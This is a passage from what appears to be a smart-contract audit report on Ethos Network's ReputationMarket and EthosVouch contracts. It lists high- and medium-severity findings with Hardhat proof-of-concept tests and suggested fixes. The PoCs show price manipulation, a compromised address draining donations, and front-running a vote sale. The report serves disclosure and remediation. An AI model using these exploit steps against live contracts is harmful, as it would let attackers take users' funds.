        await alice.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('1.0'),
            expectedVotes: 100n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await alice.getVotes()).trustVotes).to.equal(100);
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('\n\nCost_1:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });

    it('Buy and Sell - malicious', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Bob buys 99 trust votes
        await bob.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('0.95'),
            expectedVotes: 99n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await bob.getVotes()).trustVotes).to.equal(99);

        const aliceBalanceBefore = await ethosUserA.getBalance();
        // Alice first buys 99 distrust votes
        await alice.buyVotes({
            isPositive: false, // distrust votes
            buyAmount: ethers.parseEther('0.305'),
            expectedVotes: 99n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await alice.getVotes()).distrustVotes).to.equal(99);
        
        // Alice then buys 100 trust votes
        await alice.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('0.595'),
            expectedVotes: 100n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await alice.getVotes()).trustVotes).to.equal(100);

        // Alice sells all her distrust votes
        await reputationMarket
            .connect(alice.signer)
            .sellVotes(DEFAULT.profileId, false, (await alice.getVotes()).distrustVotes);
        expect((await alice.getVotes()).distrustVotes).to.equal(0);

        expect((await alice.getVotes()).trustVotes).to.equal(100);

        // Record Alice's balance now
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('\n\nCost_2:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });
});
```

<br>

Output:
```text
  t0x1c Buy n Sell


Cost_1: 0.993452851893538135 ETH
    ✔ Buy and Sell - normal (87ms)


Cost_2: 0.711616420426520863 ETH
    ✔ Buy and Sell - malicious (279ms)


  2 passing (5s)
```
</details>

## Mitigation 
It would be advisable to introduce a time delay between any consecutive calls to buy or sell votes by the same address. This would ensure price manipulation can't happen in the same block, thus mitigating the attack.

[Back to Top](#summaryTable)
---

### <a id="h-05"></a>[H-05]
## **Missing check in `withdrawDonations()` allows compromised/deleted address to steal all donation**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L570-L574
<br>

## Description
The [withdrawDonations()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L570-L574) function makes no check if the calling address has been marked compromised (or deleted from the profile) or not:
```js
  File: ethos/packages/contracts/contracts/ReputationMarket.sol

   570:            function withdrawDonations() public whenNotPaused returns (uint256) {
   571:@--->         uint256 amount = donationEscrow[msg.sender];
   572:              if (amount == 0) {
   573:                revert InsufficientFunds();
   574:              }
   575:          
   576:              // Reset escrow balance before transfer to prevent reentrancy
   577:              donationEscrow[msg.sender] = 0;
   578:          
   579:              // Transfer the funds
   580:              (bool success, ) = msg.sender.call{ value: amount }("");
   581:              if (!success) revert FeeTransferFailed("Donation withdrawal failed");
   582:          
   583:              emit DonationWithdrawn(msg.sender, amount);
   584:              return amount;
   585:            }
```

This leads to the following vulnerability:
1. Alice creates a profile and sets `donationRecipient[profileId]` to address A1. All donations are now updated in `donationEscrow[A1]`.
2. A1 gets compromised and Alice marks it as compromised using her other address A2. (Alternatively, A1 is deleted by Alice and A1 gets assigned to some other profile id).
3. The attacker who compromised A1 can still call `withdrawDonations()`.
4. Note that Alice can't use A2 to call `updateDonationRecipient()` and change the recipient or pull out the donated funds since it can only be called by the current recipient which is A1.
4. A1 calls `withdrawDonations()` and the funds get sent to them.
5. Alice has no recourse to block the attacker's actions or recover her funds.

## Impact
A couple of them:
1. A compromised/deleted address is able to steal the funds via `withdrawDonations()`.
2. Even if a check is introduced to block such addresses from receiving funds, there exists no way to rescue these funds or set a new recipient.

## Proof of Concept
Add this test file as `ethos/packages/contracts/test/reputationMarket/rep.compromised.test.ts` and see it pass when run via `npm run hardhat -- test --grep "Compromised address vulnerability"`:
```js
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, MarketUser } from './utils.js';
import { common } from '../utils/common.js';

const { ethers } = hre;

describe('ReputationMarket Security', () => {
    let deployer: EthosDeployer;
    let ethosUserA: EthosUser;
    let ethosUserB: EthosUser;
    let newWallet: ethers.Wallet; 
    let userA: MarketUser;
    let reputationMarket: ReputationMarket;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);

        if (!deployer.reputationMarket.contract) {
            throw new Error('ReputationMarket contract not found');
        }
        ethosUserA = await deployer.createUser();
        await ethosUserA.setBalance('2000');
        ethosUserB = await deployer.createUser();
        await ethosUserB.setBalance('2000');

        // Create a new wallet for the compromise scenario
        newWallet = ethers.Wallet.createRandom().connect(ethers.provider);
        // Fund the new wallet with enough ETH for gas
        await ethosUserA.signer.sendTransaction({
            to: newWallet.address,
            value: ethers.parseEther('1.0')
        });

        userA = new MarketUser(ethosUserA.signer);
        reputationMarket = deployer.reputationMarket.contract;
        DEFAULT.reputationMarket = reputationMarket;
        DEFAULT.profileId = ethosUserA.profileId;
    });

    describe('Compromised address vulnerability', () => {
        it('incorrectly allows a compromised address to withdraw donations', async () => {
            // Setup market and fees
            await reputationMarket
                .connect(deployer.ADMIN)
                .setUserAllowedToCreateMarket(DEFAULT.profileId, true);

            await reputationMarket
                .connect(deployer.ADMIN)
                .setProtocolFeeAddress(deployer.FEE_PROTOCOL_ACC.address);
                
            await reputationMarket
                .connect(deployer.ADMIN)
                .setEntryProtocolFeeBasisPoints(100); // 1%
            await reputationMarket
                .connect(deployer.ADMIN)
                .setDonationBasisPoints(200); // 2%

            // Create market
            await reputationMarket.connect(userA.signer).createMarket({ 
                value: ethers.parseEther('0.02') 
            });

            // Generate donations through vote purchases
            const buyAmount = ethers.parseEther('10.0');
            await reputationMarket.connect(ethosUserB.signer).buyVotes(
                DEFAULT.profileId,
                true, // trust votes
                1n,   // expectedVotes
                100,  // 1% slippage
                { value: buyAmount }
            );

            // Record initial balances and donations
            const balanceBefore = await ethers.provider.getBalance(ethosUserA.signer.address);
            const donationEscrow = await reputationMarket.donationEscrow(ethosUserA.signer.address);
            expect(donationEscrow).to.be.gt(0, "Should have donations to withdraw");

            // First register newWallet's address 
            const randValue = BigInt('29548234957');
            const signature = await common.signatureForRegisterAddress(
                newWallet.address,
                DEFAULT.profileId.toString(),
                randValue.toString(),
                deployer.EXPECTED_SIGNER
            );

            await deployer.ethosProfile.contract.connect(ethosUserA.signer)
                .registerAddress(
                    newWallet.address, 
                    DEFAULT.profileId, 
                    randValue, 
                    signature
                );

            // Now use new wallet to mark original address as compromised
            await deployer.ethosProfile.contract
                .connect(newWallet)
                .deleteAddress(ethosUserA.signer.address, true); // <------- Alternatively, can pass `false` as last param if only want to delete, without marking as compromised

            // Verify address is marked as compromised
            expect(await deployer.ethosProfile.contract.isAddressCompromised(ethosUserA.signer.address)).to.be.true; // <------- comment this if not marked as compromised in the step above

            // Despite being compromised/deleted, withdraw donations
            await reputationMarket.connect(ethosUserA.signer).withdrawDonations();

            // Verify funds were received by compromised address
            const balanceAfter = await ethers.provider.getBalance(ethosUserA.signer.address);
            expect(balanceAfter).to.be.closeTo(
                balanceBefore + donationEscrow,
                ethers.parseEther('0.001') // Allow for gas costs
            );

            // Verify donations were cleared
            expect(await reputationMarket.donationEscrow(ethosUserA.signer.address))
                .to.equal(0);
        });
    });
});
```

## Mitigation 
1. Add the check to revert if a compromised/deleted address attempts to call `withdrawDonations()`. Note that we need not bother about `updateDonationRecipient()` since even if it is called by A1, it can only set the new recipient to some address belonging to the existing profile:
```diff
-  570:            function withdrawDonations() public whenNotPaused returns (uint256) {
+  570:            function withdrawDonations(uint256 profileId) public whenNotPaused returns (uint256) {
+  571:              uint256 callerProfileId = _getProfileIdForAddress(msg.sender);
+  571:              if (msg.sender != donationRecipient[profileId] || callerProfileId != profileId) revert InvalidProfileId();
   571:              uint256 amount = donationEscrow[msg.sender];
   572:              if (amount == 0) {
   573:                revert InsufficientFunds();
   574:              }
   575:          
   576:              // Reset escrow balance before transfer to prevent reentrancy
   577:              donationEscrow[msg.sender] = 0;
   578:          
   579:              // Transfer the funds
   580:              (bool success, ) = msg.sender.call{ value: amount }("");
   581:              if (!success) revert FeeTransferFailed("Donation withdrawal failed");
   582:          
   583:              emit DonationWithdrawn(msg.sender, amount);
   584:              return amount;
   585:            }
```

2. The second fix is more of a design decision which the protocol can take. There should be a way to recover the donation. Either a new convenience function `reassignDonationRecipient()` can be added which looks something like this:
```js
function reassignDonationRecipient(
    uint256 profileId, 
    address newRecipient,
    bytes calldata signature  // Signed proof of new address ownership
) external {
```
Or the admin could float a proposal which allows them to rescue funds from such markets, and introduce a new function for the same.

[Back to Top](#summaryTable)

<br>

## **MEDIUM-SEVERITY BUGS**
---

### <a id="m-01"></a>[M-01]
## **Validation of time window allowed to call `markUnhealthy()` forgets to account for any paused duration**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L857-L858
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L503
<br>

## Description & Impact
After calling `unvouch()`, author can call [markUnhealthy()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L496) within a time window of `unhealthyResponsePeriod` or 24 hours which is verified via an [internal call](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L503) to function [_vouchShouldBePossibleUnhealthy()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L857-L858). Consider this:
- User calls `unvouch()` at 10 AM on Day1. They have the liberty to call `markUnhealthy()` until 10 AM on Day2.
- Due to some circumstances protocol is paused at 10:05 AM and it takes 24 hours to resolve the issue and set it back to unpaused state.
- **Impact:** User lost the ability to call `markUnhealthy()` now as the paused time-period was not taken into account by the code logic when calculating `stillHasTime` [here](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L857-L858):
```js
  File: ethos/packages/contracts/contracts/EthosVouch.sol

   855:            function _vouchShouldBePossibleUnhealthy(uint256 vouchId) private view {
   856:              Vouch storage v = vouches[vouchId];
   857:@--->         bool stillHasTime = block.timestamp <=
   858:@--->           v.activityCheckpoints.unvouchedAt + unhealthyResponsePeriod;
   859:          
   860:              if (!v.archived || v.unhealthy || !stillHasTime) {
   861:                revert CannotMarkVouchAsUnhealthy(vouchId);
   862:              }
   863:            }
```

## Mitigation 
The protocol would have to store the timestamps of the start & end of pause states. This is to ensure that even if there are **_multiple_** pauses & unpauses the correct cumulative paused time can be added as a grace period while calculating `stillHasTime`.

[Back to Top](#summaryTable)
---

### <a id="m-02"></a>[M-02]
## **Any reduction in `unhealthyResponsePeriod` via call to `updateUnhealthyResponsePeriod()` should not affect existing eligible users waiting to exercise `markUnhealthy()`**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L659
<br>

## Description & Impact
Admin can call [updateUnhealthyResponsePeriod()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L659) and update `unhealthyResponsePeriod`, effectively reducing it from 24 hours to say, 20 hours. 
Any existing author who had called `unvouch()` for example 22 hours earlier (and hence had another 2 hours in their kitty) will immediately lose the capability to call [markUnhealthy()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L496).

## Proof of Concept
We will modify [an existing test](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/test/EthosVouch.test.ts#L836) and see it pass when run via `npm run hardhat -- test --grep "Should revert if CannotMarkVouchAsUnhealthy"`:
```diff
diff --git a/ethos/packages/contracts/test/EthosVouch.test.ts b/ethos/packages/contracts/test/EthosVouch.test.ts
index be4d7f1..90101cd 100644
--- a/ethos/packages/contracts/test/EthosVouch.test.ts
+++ b/ethos/packages/contracts/test/EthosVouch.test.ts
@@ -831,13 +831,13 @@ describe('EthosVouch', () => {
           await expect(ethosVouch.connect(VOUCHER_0).markUnhealthy(11))
             .to.be.revertedWithCustomError(ethosVouch, 'VouchNotFound')
             .withArgs(11);
         });
 
         it('Should revert if CannotMarkVouchAsUnhealthy, unhealthyResponsePeriod has passed', async () => {
-          const { ethosVouch, VOUCHER_0, PROFILE_CREATOR_0, ethosProfile, OWNER } =
+          const { ethosVouch, ADMIN, VOUCHER_0, PROFILE_CREATOR_0, ethosProfile, OWNER } =
             await loadFixture(deployFixture);
 
           await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
           await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
           await ethosProfile.connect(VOUCHER_0).createProfile(1);
           await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
@@ -849,13 +849,14 @@ describe('EthosVouch', () => {
             });
 
           await ethosVouch.connect(VOUCHER_0).unvouch(0);
 
           await time.increase(100);
 
-          await time.increase(await ethosVouch.unhealthyResponsePeriod());
+          await time.increase(time.duration.hours(23));
+          await ethosVouch.connect(ADMIN).updateUnhealthyResponsePeriod(time.duration.hours(22));
 
           await expect(ethosVouch.connect(VOUCHER_0).markUnhealthy(0))
             .to.be.revertedWithCustomError(ethosVouch, 'CannotMarkVouchAsUnhealthy')
             .withArgs(0);
         });
 

```

## Mitigation 
When any author calls `unvouch()`, their deadline for calling `markUnhealthy()` can be calculated & stored right away and used for verification later on.

[Back to Top](#summaryTable)
---

### <a id="m-03"></a>[M-03]
## **Author can escape slashing by front-running it and unvouching**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L520
<br>

## Description & Impact
As soon as an author sees in the mempool that the slasher has chosen to call [slash()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L520) on his profileId, they can front-run it and call [unvouch()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L452) on all their vouches. This immediately returns all the balance to the author. The `slash()` function anyway doesn't consider archived vouches while slashing since they wouldn't have any balance:
```js
  File: ethos/packages/contracts/contracts/EthosVouch.sol

   520:            function slash(
   521:              uint256 authorProfileId,
   522:              uint256 slashBasisPoints
   523:            ) external onlySlasher whenNotPaused nonReentrant returns (uint256) {
   524:              if (slashBasisPoints > MAX_SLASH_PERCENTAGE) {
   525:                revert InvalidSlashPercentage();
   526:              }
   527:          
   528:              uint256 totalSlashed;
   529:              uint256[] storage vouchIds = vouchIdsByAuthor[authorProfileId];
   530:          
   531:              for (uint256 i = 0; i < vouchIds.length; i++) {
   532:                Vouch storage vouch = vouches[vouchIds[i]];
   533:@--->           // Only slash active vouches
   534:@--->           if (!vouch.archived) {
   535:                  uint256 slashAmount = vouch.balance.mulDiv(
   536:                    slashBasisPoints,
   537:                    BASIS_POINT_SCALE,
   538:                    Math.Rounding.Floor
   539:                  );
   540:                  if (slashAmount > 0) {
   541:                    vouch.balance -= slashAmount;
   542:                    totalSlashed += slashAmount;
   543:                  }
   544:                }
   545:              }
```
This may effect the author's reputation but the immediate loss of ETH which would probably be of greater value, is avoided.

## Mitigation 
- Thr protocol could consider adding a time delay between the call to `unvouch()` and funds being returned to the author. The author should be required to call a new function to pull these funds into their address once the time period has expired.
- Then, the `slash()` logic can be modified to exclude only the vouches which are archived and have zero withdrawable funds in them. We may need to add another element in `struct Vouch` named `uint256 fundsNotYetPulledByAuthor` to track this.

[Back to Top](#summaryTable)
---

### <a id="m-04"></a>[M-04]
## **MAX_TOTAL_FEES for `EthosVouch.sol` is set to `100%` instead of the expected `10%`**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L120
<br>

## Description
MAX_TOTAL_FEES [is set to 100%](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L120) inside `EthosVouch.sol`. However the audit page clearly states that:
> For both contracts:
>   - Maximum total fees cannot exceed 10%

## Impact
Function [checkFeeExceedsMaximum()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L996) which is internally called each time any fee value is changed, will allow the total fees to reach 100%:
```js
  File: ethos/packages/contracts/contracts/EthosVouch.sol

   991:            /* @notice Checks if the new fee would cause the total fees to exceed the maximum allowed
   992:             * @dev This function is called before updating any fee to ensure the total doesn't exceed MAX_TOTAL_FEES
   993:             * @param currentFee The current value of the fee being updated
   994:             * @param newFee The proposed new value for the fee
   995:             */
   996:            function checkFeeExceedsMaximum(uint256 currentFee, uint256 newFee) internal view {
   997:              uint256 totalFees = entryProtocolFeeBasisPoints +
   998:                exitFeeBasisPoints +
   999:                entryDonationFeeBasisPoints +
   1000:                entryVouchersPoolFeeBasisPoints +
   1001:                newFee -
   1002:                currentFee;
   1003:@--->         if (totalFees > MAX_TOTAL_FEES) revert FeesExceedMaximum(totalFees, MAX_TOTAL_FEES);
   1004:            }
```

## Mitigation 
```diff
  File: ethos/packages/contracts/contracts/EthosVouch.sol

-   120:            uint256 public constant MAX_TOTAL_FEES = 10000;
+   120:            uint256 public constant MAX_TOTAL_FEES = 1000;
```

[Back to Top](#summaryTable)
---

### <a id="m-05"></a>[M-05]
## **No slippage protection in `sellVotes()`**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L495-L499
<br>

## Description & Impact
[sellVotes()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L495-L499) offers no slippage protection to the user. Here's how this can affect a user (rough numbers shown below. For exact numbers, please refer PoC). 
**_Also note that_** this may happen in the normal course of events where a large order gets placed by Bob before Alice, and does not necessarily require a malicious attacker:

- Initial Market State
    - Trust votes: 1
    - Distrust votes: 1 
    - Base price: 0.01 ETH
    - Initial price per vote: (1 * 0.01) / 2 = 0.005 ETH

- Step 1: Victim's Initial Position at time `t`
    - Alice has 1 trust vote. Current market distribution:
    - Trust votes: 11
    - Distrust votes: 1
    - Current trust vote price: (11 * 0.01) / 12 ≈ 0.0092 ETH
    - So Alice will expect to receive ≈ 0.0092 ETH if she sells 1 trust vote.

- Step 2: Front-Running Attack
    - When Alice submits transaction to sell 1 trust votes, Attacker front-runs with purchase of 20 distrust votes. New distribution: 
    - Trust votes: 11
    - Distrust votes: 21
    - Manipulated trust vote price: (11 * 0.01) / 32 ≈ 0.0034 ETH

- Step 3: Victim's Forced Sale
    - Alice's transaction executes after attacker
    - Sells her trust votes at manipulated price
    - Received value ≈ 0.0034 ETH
    - Loss due to slippage: (0.0092 - 0.0034) ETH  = 0.0058 ETH (≈ 63% loss)

## Proof Of Concept
Add this file as `rep.slippagebug.test.ts` inside the `ethos/packages/contracts/test/reputationMarket/` directory and run with `npm run hardhat -- test --grep "ReputationMarket Slippage Vulnerability"` to see the loss in revenue from sale when compared between Case1 and Case2:
```js
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, MarketUser } from './utils.js';

const { ethers } = hre;

describe('ReputationMarket Slippage Vulnerability', () => {
    let deployer: EthosDeployer;
    let ethosUserA: EthosUser;
    let ethosUserB: EthosUser;
    let alice: MarketUser;
    let bob: MarketUser;
    let reputationMarket: ReputationMarket;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);

        if (!deployer.reputationMarket.contract) {
        throw new Error('ReputationMarket contract not found');
        }
        ethosUserA = await deployer.createUser();
        await ethosUserA.setBalance('10');
        ethosUserB = await deployer.createUser();
        await ethosUserB.setBalance('10');

        alice = new MarketUser(ethosUserA.signer);
        bob = new MarketUser(ethosUserB.signer);

        reputationMarket = deployer.reputationMarket.contract;
        DEFAULT.reputationMarket = reputationMarket;
        DEFAULT.profileId = ethosUserA.profileId;
        await reputationMarket
            .connect(deployer.ADMIN)
            .setUserAllowedToCreateMarket(DEFAULT.profileId, true);
        await reputationMarket.connect(alice.signer).createMarket({ value: ethers.parseEther('0.02') });
    });

    it('Case1 - Normal scenario', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Alice buys trust votes
        const aliceInvestment = ethers.parseEther('0.1');
        await alice.buyVotes({
        buyAmount: aliceInvestment,
        expectedVotes: 12n,  // We know this from simulation
        slippageBasisPoints: 100  // 1% slippage allowed
        });

        // Verify Alice's position
        const alicePosition = await alice.getVotes();
        expect(alicePosition.trustVotes).to.equal(12n);
        
        // Record Alice's balance before selling
        const aliceBalanceBefore = await ethosUserA.getBalance();

        // Alice's sell executes 
        await alice.sellVotes({
        sellVotes: 12n  // Selling all trust votes
        });

        // Calculate Alice's loss
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the attack details for analysis
        console.log('Revenue from Sale:', aliceBalanceAfter - aliceBalanceBefore); // 0.098 ETH
    });

    it('Case2 - Front-run scenario', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Alice buys trust votes
        const aliceInvestment = ethers.parseEther('0.1');
        await alice.buyVotes({
        buyAmount: aliceInvestment,
        expectedVotes: 12n,  // We know this from simulation
        slippageBasisPoints: 100  // 1% slippage allowed
        });

        // Verify Alice's position
        const alicePosition = await alice.getVotes();
        expect(alicePosition.trustVotes).to.equal(12n);
        
        // Record Alice's balance before selling
        const aliceBalanceBefore = await ethosUserA.getBalance();

        // Bob front-runs with large distrust vote purchase
        await bob.buyVotes({
        buyAmount: ethers.parseEther('0.3'),  
        isPositive: false,  // buying distrust votes
        expectedVotes: 50n,
        slippageBasisPoints: 100
        });
        expect((await bob.getVotes()).distrustVotes).to.equal(50n);

        // Alice's sell executes after Bob's attack
        await alice.sellVotes({
        sellVotes: 12n  // Selling all trust votes
        });

        // Calculate Alice's loss
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the attack details for analysis
        console.log('Attack Results:');
        console.log('Revenue from Sale with Front-Run:', aliceBalanceAfter - aliceBalanceBefore); // 0.013 ETH
    });
});
```

## Mitigation 
Implement slippage protection in `sellVotes()`. Something along the lines of:
```diff
    function sellVotes(
        uint256 profileId,
        bool isPositive,
        uint256 amount,
+       uint256 expectedFunds,
+       uint256 slippageBasisPoints
    ) public whenNotPaused activeMarket(profileId) nonReentrant {
        _checkMarketExists(profileId);

        // calculate the amount of votes to sell and the funds received
        (
        uint256 votesSold,
        uint256 fundsReceived,
        ,
        uint256 protocolFee,
        uint256 minVotePrice,
        uint256 maxVotePrice
        ) = _calculateSell(markets[profileId], profileId, isPositive, amount);
        
+       _checkSlippageLimitOnSell(fundsReceived, expectedFunds, slippageBasisPoints);

        // ... rest of existing function
    }
```

[Back to Top](#summaryTable)
---

### <a id="m-06"></a>[M-06]
## **`marketConfigIndex` may change on addition & deletion from `marketConfigs[]` array and hence `createMarket()` may not invoke the default market configuration**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L268-L274
<br>

## Description & Impact
[createMarket()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L268-L274) is expected to create a market with default config by internally using config at index 0:
```js
  File: ethos/packages/contracts/contracts/ReputationMarket.sol

   268:            /**
   269:             * @notice Creates a new reputation market for a profile using the default market configuration
   270:             * @dev This is a convenience function that calls createMarketWithConfig with index 0
   271:             */
   272:            function createMarket() public payable whenNotPaused {
   273:@--->         createMarketWithConfig(0);
   274:            }
```

However admin could've called `removeMarketConfig(0)` at any point of time which would cause index 0 to be populated with the `Premier` config which used to be at index 2. This is because `removeMarketConfig()` replaces the array element with the last array item and then calls `array.pop()`. The admin could then even go further and call [addMarketConfig()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L354-L360) to add a new `default` config which gets added at index 2.
```js
   385:            /**
   386:             * @dev Removes a market configuration option while maintaining at least one config
   387:             * @param configIndex The index of the config to remove
   388:             */
   389:            function removeMarketConfig(uint256 configIndex) public onlyAdmin whenNotPaused {
   390:              // Cannot remove if only one config remains
   391:              if (marketConfigs.length <= 1) {
   392:                revert InvalidMarketConfigOption("Must keep one config");
   393:              }
   394:          
   395:              // Check if the index is valid
   396:              if (configIndex >= marketConfigs.length) {
   397:                revert InvalidMarketConfigOption("index not found");
   398:              }
   399:          
   400:              emit MarketConfigRemoved(configIndex, marketConfigs[configIndex]);
   401:          
   402:@--->         // If this is not the last element, swap with the last element
   403:              uint256 lastIndex = marketConfigs.length - 1;
   404:              if (configIndex != lastIndex) {
   405:                marketConfigs[configIndex] = marketConfigs[lastIndex];
   406:              }
   407:          
   408:              // Remove the last element
   409:              marketConfigs.pop();
   410:            }
```

All in all, indices can't be trusted for these calls and may result in a market to be created with incorrect configurations.

## Mitigation 
Always store the current updated index of the default config in another variable say `defaultMarketConfigIndex` and use that inside `createMarket()`:
```diff
    function createMarket() public payable whenNotPaused {
-        createMarketWithConfig(0);
+        createMarketWithConfig(defaultMarketConfigIndex);
    }
```

For other function calls too, it might be a good idea to not trust indices and rather assign a unique or identifier to each config which can be referenced.

[Back to Top](#summaryTable)
